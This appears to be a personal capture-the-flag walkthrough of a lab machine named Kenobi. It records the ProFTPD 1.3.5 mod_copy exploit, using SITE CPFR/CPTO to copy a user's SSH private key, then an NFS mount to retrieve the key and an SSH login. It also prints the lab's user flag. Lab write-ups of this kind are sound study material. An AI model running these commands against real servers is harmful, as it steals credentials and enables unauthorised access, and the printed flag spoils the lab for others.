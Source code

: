 nc 10.10.76.140 21
	220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.76.140]

searchsploit ProFTPD 1.3.5                                                                                                                   
	                        21:40:48
	------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
	 Exploit Title                                                                                                                                  |  Path
	------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
	ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                                       | linux/remote/37262.rb
	ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                             | linux/remote/36803.py
	ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                                                                         | linux/remote/49908.py
	ProFTPd 1.3.5 - File Copy                                                                                                                       | linux/remote/36742.txt
	------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
	Shellcodes: No Results
	Papers: No Results

Want to grab his private key to connect into his system. Can exploiut the mod_copy module on this version of ProFTPD to move his private key to the publicly accessible /var folder

nc 10.10.76.140 21
	SITE CPFR /home/kenobi/.ssh/id_rsa
	350 File or directory exists, ready for destination name
	SITE CPTO /var/tmp/id_rsa
	250 Copy successful
	^C

Now to mount the /var file to my system and grab the key
	mkdir /mnt/kenobiNFS
	mount 10.10.76.140:/var /mnt/kenobiNFS
	ls -la /mnt/kenobiNFS
	cd /mnt/kenobiNFS/tmp
	cp 

Now I need to move the user flag from kenobi's home directory to the tmp folder
	nc 10.10.76.140 21
		SITE CPFR /home/kenobi/user.txt
		SITE CPTO /var/tmp/user.txt
		^C
		cat /home/kali/OSCP/Kenobi/user.txt
			d0b0f3f53b6caa532a83915e19224899

# Access
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.76.140
	Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)
	